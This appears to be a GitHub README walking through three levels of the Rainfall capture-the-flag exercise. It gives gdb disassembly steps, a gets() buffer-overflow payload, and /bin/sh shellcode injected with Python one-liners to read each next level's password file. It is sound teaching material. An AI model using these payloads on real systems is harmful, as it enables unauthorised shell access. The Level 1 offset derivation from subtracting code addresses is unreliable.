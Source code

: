 # Rainfall

---

## Introduction

Welcome to **Rainfall**, the continuation of **snow-crash**, a series of hands-on challenges in cyber security. Each level presents a unique puzzle or exploit that you must solve to uncover a hidden flag and progress to the next challenge. Whether you're a beginner or an experienced hacker, these exercises are designed to sharpen your problem-solving skills and broaden your knowledge of various cyber security concepts.

|<h1>Cyber Security</h1>|
|-|
| <img width="500px" src="https://github.com/42-Course/rainfall/blob/main/meme.png" alt="Cyber Security Meme"> |


<details>
<summary>Notes:</summary>

Registers: Think of registers like small, very fast storage spaces inside the CPU. The key registers we’ll see here are:

    ebp (Base Pointer): Used to mark the start of the current function’s stack frame (a region of memory for the function’s variables).
    esp (Stack Pointer): Points to the top of the stack (a dynamic region of memory where temporary data is stored and managed).
    eax, edx: General-purpose registers used for calculations and temporarily holding values.

Stack: A stack is like a pile of plates. You can only add (push) or remove (pop) plates from the top. It’s used to keep track of function calls, local variables, and temporary data.

Instructions: Assembly instructions are commands to the CPU. For example:

    push: Places (stores) a value on the stack.
    mov: Moves data from one place to another (e.g., from a register to memory or vice versa).
    call: Jumps to another function.
    ret: Returns from a function.
</details>

---

## ![Level 0](https://img.shields.io/badge/Level-0-blue) Disassemble the Memory

![Disassemble the Memory](https://img.shields.io/badge/Disassemble%20the%20memory-ASM-blue?style=for-the-badge&logo=lock)

**Description:** In this level, you need to disassemble the memory and identify an execution path that will reveal the password for the next level if the `cmp` condition is met.

### Steps:
1. **Load the Program into the Debugger**:
   ```bash
   gdb level0
   disas main
   ```
   You'll see something like:
   ```
   0x08048ed4 <+20>:   call   0x8049710 <atoi>
   >0x08048ed9 <+25>:  cmp    $0x1a7,%eax
   ```

2. **Convert the Comparison Value**:
   ```bash
   echo $((16#1a7)) # Output: 423
   ```

3. **Run the Program with the Correct Input**:
   ```bash
   ./level0 423
   ```

4. **Retrieve the Password**:
   ```bash
   whoami # level1
   cat /home/user/level1/.pass
   exit
   ```

---

## ![Level 1](https://img.shields.io/badge/Level-1-green) Buffer Overflow with `gets()`

![Buffer Overflow](https://img.shields.io/badge/Buffer%20Overflow%20gets()-clib-blue?style=for-the-badge&logo=lock)

**Description:** This level features a buffer overflow vulnerability in the unsafe `gets()` function. By exploiting this vulnerability, you can overwrite the stack and call the hidden `run()` function.

### Steps:
1. **Analyze the Program**:
   ```bash
   gdb level1
   i func # Look for 'run' function address (e.g., 0x08048444)
   disas main
   ```
   You’ll see:
   ```
   0x08048490 <+16>:   call   0x8048340 <gets@plt>
   ```

2. **Calculate the Offset**:
   ```bash
   echo $((0x08048490 - 0x08048444)) # Output: 76 bytes
   ```

3. **Test the Buffer Overflow**:
   ```bash
   (python -c 'print("A" * 76)'; cat -) | ./level1
   # Results in: Illegal instruction or segmentation fault
   ```

4. **Prepare the Exploit**:
   - Find the `run` function address:
     ```bash
     objdump -d ./level1 | grep run
     # Output: 08048444 <run>:
     ```

   - Execute the exploit:
     ```bash
     (python -c 'print("A" * 76 + "\x44\x84\x04\x08")'; cat -) | ./level1
     ```

5. **Retrieve the Password**:
   ```bash
   whoami # level2
   cat /home/user/level2/.pass
   exit
   ```

---

## ![Level 2](https://img.shields.io/badge/Level-2-yellow) Shellcode Injection

![Shellcode Injection](https://img.shields.io/badge/Shellcode-Injection-yellow?style=for-the-badge&logo=lock)

**Description:** This level features a buffer overflow vulnerability where you can inject shellcode into a buffer and overwrite the return address to execute it. The shellcode spawns a shell, allowing access to the next level.

### Steps:
1. **Analyze the Program**:
   ```bash
   objdump -d ./level2
   ```
   Look for:
   - Use of `gets()` to populate a buffer (e.g., 76 bytes on the stack).
   - Vulnerable return address checks.

2. **Prepare the Shellcode**:
   - Example shellcode to spawn `/bin/sh`:
     ```assembly
     "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
     ```
   - Shellcode length: **21 bytes**.

3. **Craft the Exploit**:
   - Fill the buffer with the shellcode, padding, and return address:
     ```bash
     (python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A" * (76 - 21 + 4) + "\x08\xa0\x04\x08")'; cat -) | ./level2
     ```

4. **Retrieve the Password**:
   ```bash
   whoami # level3
   cat /home/user/level3/.pass
   exit
   ```

---

## Conclusion

Rainfall challenges provide an engaging and hands-on way to learn about cyber security concepts such as:
- Buffer overflows
- Shellcode injection
- Binary disassembly
- Exploiting unsafe functions like `gets()`

Each level builds on the previous one, allowing you to gradually deepen your understanding of these critical vulnerabilities and how to exploit or prevent them.

Let’s continue breaking things responsibly and learning to build stronger systems!

---